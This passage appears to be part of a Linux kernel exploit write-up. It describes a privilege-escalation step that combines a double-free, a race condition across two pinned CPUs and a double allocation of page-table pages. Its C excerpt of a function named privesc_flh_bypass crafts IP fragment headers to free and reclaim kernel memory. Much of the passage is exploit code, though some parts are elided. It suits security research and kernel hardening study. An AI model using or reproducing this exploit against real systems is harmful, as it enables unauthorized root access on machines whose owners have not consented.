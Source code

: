 ### Double-free (free 2) + race condition + double-alloc

Now it's time to pull of the race condition for the 2nd free: 

1. sync both threads
2. CPU 0 thread allocate the packet with previous skb->head | CPU 1 thread frees this skb->head 
3. CPU 1 allocates double-alloc PMD page
4. CPU 0 packet expires after 1s
5. CPU 0 allocates double-alloc PUD page

For a full explanation of the technique, check the novel techniques document, which describes the order 4 -> order 0 conversion technique in detail.

Notice how we allocate hte PUD and PMD by writing to the address, since pagetables are allocated JIT: if we do not access the virtual address in it's bailywick, it will not be allocated. 


```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
		pin_cpu(1);

		SYNC_CPU1();

		// append to ip packet with fragment to free packet on *this* cpu
		// offset <<= 3, so divide by 8 aka >> 3 (this is so we have 3 bits for fragmentation flags)
		// setup ipfrag_time timer for fragment expiration / waiting for frags
		df_ip_header.ip_id = 0x1337;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
		df_ip_header.ip_off = ntohs(((32768 + 8) >> 3) | 0x2000);
		
		// skb1->len gets overwritten by s->random() in set_freepointer(). need to discard queue with tricks circumventing skb1->len
		// causes end == offset in ip_frag_queue(). packet will be empty
		// remains running until after both frees, a.k.a. does not require sleep
		alloc_intermed_buf_hdr(0, &df_ip_header);
		
		pmd_area[0] = 0xDEADBEEF;

        // ... (more exploit stuff)
    } else {
		// ... (DF free 1 + mid free)

		SYNC_CPU0();
```